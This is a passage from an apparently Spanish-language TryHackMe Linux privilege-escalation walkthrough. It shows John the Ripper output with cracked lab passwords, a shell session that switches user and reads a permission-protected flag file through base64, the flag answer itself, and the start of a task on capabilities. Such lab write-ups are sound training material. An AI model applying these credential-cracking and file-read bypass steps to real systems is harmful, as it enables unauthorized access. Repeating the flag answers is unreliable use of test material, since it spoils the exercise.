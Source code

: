 ```
Password1        (karen)     
Password1        (user2)     
test123          (gerryconway)     
3g 0:00:00:12 DONE (2024-10-17 09:39) 0.2323g/s 1368p/s 1923c/s 1923C/s paramedic..ellie123
Use the "--show" option to display all of the cracked passwords reliably
Session completed.


Password1        (user2)  
                      
```

#### Vemos la bandera con base64

```
karen@ip-10-10-38-105:/tmp$ su user2
Password: 
$ pwd
/tmp
$ cd /home/ubuntu
$ ls
flag3.txt
$ cat flag3.txt
cat: flag3.txt: Permission denied
$ find / -name flag* 2>/dev/null
/home/ubuntu/flag3.txt
$ base64 -d /home/ubuntu/flag3.txt
Lsbase64: invalid input
$ bash -i 
user2@ip-10-10-38-105:/home/ubuntu$ base64 flag3.txt | base64 -d 
THM-3847834
user2@ip-10-10-38-105:/home/ubuntu$ 

```


### What is the content of the flag3.txt file?

```
user2@ip-10-10-38-105:/home/ubuntu$ base64 flag3.txt | base64 -d 
THM-3847834
user2@ip-10-10-38-105:/home/ubuntu$ 

```





## Task 8  - Privilege Escalation: Capabilities

Another method system administrators can use to increase the privilege level of a process or binary is “Capabilities”. Capabilities help manage privileges at a more granular level. For example, if the SOC analyst needs to use a tool that needs to initiate socket connections, a regular user would not be able to do that. If the system administrator does not want to give this user higher privileges, they can change the capabilities of the binary. As a result, the binary would get through its task without needing a higher privilege user.
The capabilities man page provides detailed information on its usage and options.
